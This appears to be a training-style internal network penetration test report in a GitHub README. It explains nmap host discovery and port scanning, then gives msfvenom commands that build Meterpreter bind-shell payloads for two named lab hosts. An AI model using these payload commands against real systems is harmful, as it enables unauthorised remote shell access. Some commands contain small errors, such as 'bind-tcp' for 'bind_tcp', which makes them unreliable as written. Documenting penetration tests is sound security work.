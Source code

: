 # INTERNAL NETWORK PENETRATION TESTING REPORT
#### BY ADU GYENI BENJAMIN

### Table of Contents
1. [Summary](#summary)
2. [Testing_Methodogy](#TestingMethodogy)
3. [Host_Discovery](#HostDiscovery)
4. [Sevice_Discovery_and_Port_Scanning](#SeviceDiscoveryandPortScanning)
5. [Web-Based_Attack_Surfaces](#Web-BasedAttackSurfaces)
6. [Generating_Payloads](#GeneratingPayloads)

### Summary
An Internal Network Penetration Test was performed on a scope comprising 10.10.10.0/24 and a domain name https://virtualinfosecafrica.com/ from September 12th, 2024 to September 14th, 2024. This report describes penetration testing that represents a point in time snapshots of the network security posture of the scope in question which can be found in the subsequent sessions.


### Testing Methodogy
Testing took off by utilizing the Network Mapper(NMAP) tool to locate live hosts and services in the in-scope ip address provided. The output of this tooling was then manually examined and the host and services were manually enumerated to uncover any missed vulnerability and weakness. Web-based attack surfaces were exploited to generate payloads.


### Host Discovery
Host discovery is a process of finding live hosts on a network. It can be used to narrow down the scope of a network assessment or during security testing. One tool which is mostly used in host discovery is the nmap tool. The command used in the host discovery was " nmap -sn 10.10.10.0/24 ", where " -sn (or --ping-scan) " - tells nmap to perform a "ping scan" which is used to discover hosts without performing a full port scan. It will only check if hosts are alive, not what services they are running.
" 10.10.10.0/24 " - specifies the target network. The /24 is a CIDR notation indicating a subnet mask of 255.255.255.0, which means the scan will cover all IP addresses from 10.10.10.1 to 10.10.10.254.

![Host Discovery](Images/host_discovery.png)


### Service Discovery And Port Scanning
Service discovery and port scanning are essential techniques in network management, security, and administration.

##### Service Discovery
- **Purpose:** Identifies active services on a network, such as web servers or databases.
- **Benefits:**
  - **Configuration Management:** Helps administrators verify and manage service configurations.
  - **Troubleshooting:** Assists in diagnosing and resolving network issues by revealing which services are running.
  - **Security:** Aids in identifying potential vulnerabilities by showing what services are exposed and their current state.

##### Port Scanning
- **Purpose:** Detects open ports on networked devices, revealing which services are available.
- **Benefits:**
  - **Network Mapping:** Helps in understanding the network layout and available services.
  - **Security Assessment:** Identifies open ports and services that may be vulnerable, aiding in vulnerability management.
  - **Compliance:** Ensures systems meet security policies and standards by regularly checking for unintended open ports.

##### Combined Use
- **Enhanced Security:** Together, these techniques provide a comprehensive view of network security, identifying vulnerabilities and ensuring proper configuration.
- **Efficient Management:** They help in maintaining a secure and well-managed network environment by detecting potential issues early.
  
![Service Discovery and Port Scanning](Images/sdps.png)


### Vulnerability Scanning
Vulnerability scanning is an automated process that identifies security weaknesses in systems, networks, or applications. It helps detect unpatched software, misconfigurations, and other vulnerabilities that could be exploited. The scanning process involves discovering live hosts, scanning for known issues, analyzing results, and generating reports. Benefits include proactive security, cost-effectiveness, and regulatory compliance, though it may produce false positives or miss some vulnerabilities. Regular vulnerability scanning is essential for maintaining and enhancing overall security.

![Vulnerability Scanning](Images/vulnerability_scanning.png)


### Web-Based Attack Surfaces
Web-based attack surfaces include web application interfaces, authentication mechanisms, APIs, and server configurations, each posing potential security risks like SQL injection or session hijacking. Key security measures involve input validation, secure session management, and keeping software updated. Addressing vulnerabilities in these areas helps protect against exploits and enhances overall web security.

- To use eyewitness to take screenshots of the servers, including those running on non-standard HTTP/HTTPS ports, you can use the following bash command: "eyewitness -f hosts.txt --web --resolve --ports 80, 443, 8080, 8443"

- To generate a base64-encoded payload that triggers a TCP bind shell on executiion on host 10.10.10.55(Apache Tomcat), use this bash command: "msfvenom -p java/meterpreter/bind-tcp LHOST=10.10.10.55 LPORT=4444 -f jar"

- To generate a payload that triggers a TCP bind shell on executiion on host 10.10.10.30(Python Server), use this bash command: "msfvenom -p python/meterpreter/bind-tcp LHOST=10.10.10.30 LPORT=4444 -e base64"

![web attack surfaces](Images/was1.png)

![web attack](Images/was2.png)
  



